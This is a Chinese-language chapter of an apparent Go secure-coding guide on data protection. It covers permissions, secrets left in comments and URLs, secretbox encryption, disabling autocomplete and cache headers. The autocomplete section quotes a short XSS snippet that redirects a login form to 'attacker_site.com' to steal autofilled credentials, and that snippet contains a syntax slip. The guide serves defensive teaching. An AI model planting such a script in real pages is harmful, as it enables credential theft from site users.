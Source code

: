 数据保护
===============

如今，安全方便最重要的事情就是数据保护，你并不想要这样的东西：

![All your data are belong to us](files/cB52MA.jpeg)

简而言之，你需要保护你 Web 应用的数据。本章节我们会讨论一些不同的方式来保护数据。

你应该注意的第一件事情就是给每个用户创建和配置正确的权限，并严格限制他们，让使用他们真正需要的功能。

例如，考虑一个在线商店，具有以下角色：

* _销售人员_: 只能看目录
* _营销人员_: 可以看统计报表
* _开发人员_: 可以修改页面和程序的配置

另外，在系统配置(也称为webserver)中，你应该定义正确的权限。

在最重要的事情是为每个用户定义好权限角色

角色权限分离和访问控制的内容，你可以在[访问控制][1]的章节里面阅读。

## 移除敏感信息

临时文件和缓存文件里面如果包含有敏感信息，不用的时候应该马上删除。如果其中还是有一部分是需要使用的要么放在安全的地方或者把他们做加密存放。

### 注释

某些时候，开发人员会在源码里面留下一些_TODO LISTS_，但是在某些最坏的情况下，开发人员可能会把一些认证信息留下来。
```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```
在上面的例子中，开发人员留下了带有敏感信息的注释，当你的程序源码没有被妥善保存的时候，可能会被别有用心的人利用。

### URL

使用 HTTP GET 来传递敏感信息的时候会使 Web 应用变得脆弱，原有如下：

1. 如果不使用 HTTPS，数据会被中间人拦截，这就是所谓的中间人攻击。
2. 浏览器会保存用户的访问信息，如果 URL 中有会话 ID, PINS 或者 TOKENS 而且还没有过期时间的话，它们很容易就被别人利用。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

如果你的 Web 应用试图用`api_key`从第三方网站获取信息的时候，由于没有使用 HTTPS 而且还是通过 GET 的方式请求数据就导致你的`api_key`很有可能被监听你的网络的人窃取。

同样的，如果你的 Web 应有有下面这样的链接：

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```
它也会被存在浏览器的历史记录里面，也可能被窃取。

解决方案应该始终使用 HTTPS。另外，尝试使用 POST 方法来传递参数，如果可以的话使用一次性的会话 ID 或者令牌。

### 信息就是力量

你应该始终把线上环境的程序和系统文档删掉，其中的某些文档可能会揭露版本信息，或者一些可以用来攻击你的 Web 应用的方法(比如：README，修改日志等等)。

作为一名开发人员，你应该让你的用户可以删除那些不在使用的敏感信息。比如某个用户的账户下面有一张已经过期的信用卡，你的 Web 应用应该支持删除这张卡片。

记住，那些不再使用的信息都应该从程序里面删除。

#### 加密是关键

在你的 Web 应用里面每个高敏感的信息都应该加密。Go 里面使用的是[军事等级的加密方案][2]。更多信息参考[加密实践][3]章节。

如果说你想在其他地方实现你的代码，那么只需要把原来的代码编译成一个二进制文件就可以。但是目前还没有防止逆向工程的方法。

对于不同的开发人员，给予不同的访问权限才是最佳实践。

不要在客户端以明文或任何非加密的形式保存用户密码，数据库连接字符串(可以在[数据库安全][4]章节看怎样加密数据库连接字符串)或者其他敏感信息。

下面是 Go 中使用`golang.org/x/crypto/nacl/secretbox`包加密的示例：

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := io.ReadFull(rand.Reader, nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

输出是:

```
hello world
```

## 把不需要的功能停用 

另外一个降低被攻击风险的方式是停用系统中哪些你不需要的功能或者服务。

### 自动填充

根据 [Mozilla documentation][1], 你可以通过下面的方式禁用自动填充：

```html
<form method="post" action="/form" autocomplete="off">
```

或者在某个特定的表单元素上：

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```
这对于在登录表单上禁用自动填充的功能特别有用。想象一下当登录页面包含有 XSS 的内容时，如果攻击者创建了一下的代码：

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

他将会把自动填充的内容发送到`attacker_site.com`网站。

### 缓存

在一些包含敏感信息的页面应该禁用缓存，这个可以在返回头里面设置：

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

`no-cache`告诉浏览器在使用缓存前先向服务器请求最新的数据，而不是告诉浏览器_不缓存_。

另一方面，`no-store`才是告诉浏览器_不要缓存_而且不要存请求或者响应数据的任何部分。

`Pragma`头是为了支持 HTTP/1.0

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
